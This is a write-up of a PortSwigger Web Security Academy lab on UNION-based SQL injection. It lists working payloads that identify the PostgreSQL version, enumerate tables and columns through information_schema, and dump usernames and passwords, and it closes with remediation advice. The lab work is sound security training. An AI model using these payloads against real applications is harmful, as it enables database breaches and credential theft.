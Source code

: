 # SQL injection attack, listing the database contents on non-Oracle databases

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on non-Oracle databases”*, we demonstrated how an attacker can enumerate **all database tables, their columns, and sensitive user credentials** using a series of `UNION SELECT` queries against `information_schema`.
Because the application dynamically concatenates user-supplied text into its SQL queries without sanitisation, we pivoted from a simple injection test to full schema enumeration and credential harvesting.

---

## Why This Matters to You

* **Full data breach:** Once table names and column names are known, dumping sensitive data (usernames, passwords, payment details) becomes trivial.
* **Persistence risk:** Knowledge of schema details makes backdoor creation easier for attackers.
* **Compliance violations:** Any unauthorised access to stored credentials can trigger GDPR, CCPA, or similar regulatory reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                                                   | Intended SQL generated by the app                                                                                                              | What actually happens & why                                          |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** and identified DB type as **PostgreSQL** with:<br>`' UNION SELECT NULL,version()--`                                                  | `SELECT * FROM someTable WHERE category='X' UNION SELECT NULL, version()--'`                                                                   | Version string confirms PostgreSQL back-end.                         |
| 2 | **Enumerated tables** with:<br>`' UNION SELECT table_name,table_schema FROM information_schema.tables--`                                                         | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, table_schema FROM information_schema.tables--'`                           | Listed all table names/schemas, including one called `users_kcstmf`. |
| 3 | **Enumerated columns** for the `users_kcstmf` table with:<br>`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--'` | Revealed columns `username_spivdg` and `password_dfxmeh`.            |
| 4 | **Dumped credentials** with:<br>`' UNION SELECT username_spivdg,password_dfxmeh FROM users_kcstmf--`                                                             | `SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh FROM users_kcstmf--'`                                | Retrieved all stored usernames and passwords.                        |
| 5 | **Logged in** using harvested credentials.                                                                                                                       | —                                                                                                                                              | Administrative access granted, lab solved.                           |

---

## Observable Output

| Test / Payload                                                                                      | Visible result                        | What it proved                              |
| --------------------------------------------------------------------------------------------------- | ------------------------------------- | ------------------------------------------- |
| `' UNION SELECT NULL,version()--`                                                                   | `PostgreSQL 14.x ...`                 | Backend database type & version confirmed.  |
| `' UNION SELECT table_name,table_schema FROM information_schema.tables--`                           | Long list of table names              | Schema enumeration works.                   |
| `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--` | `username_spivdg` / `password_dfxmeh` | Sensitive column names identified.          |
| `' UNION SELECT username_spivdg,password_dfxmeh FROM users_kcstmf--`                                | List of usernames and passwords       | **Complete credential disclosure** achieved |

---


## Conclusion

By leveraging basic UNION-based SQL injection against `information_schema`, we escalated from product-list manipulation to a **full database breach**, including credential theft. The fix requires moving away from string-concatenated SQL, enforcing least-privilege DB roles, and hardening password storage practices.

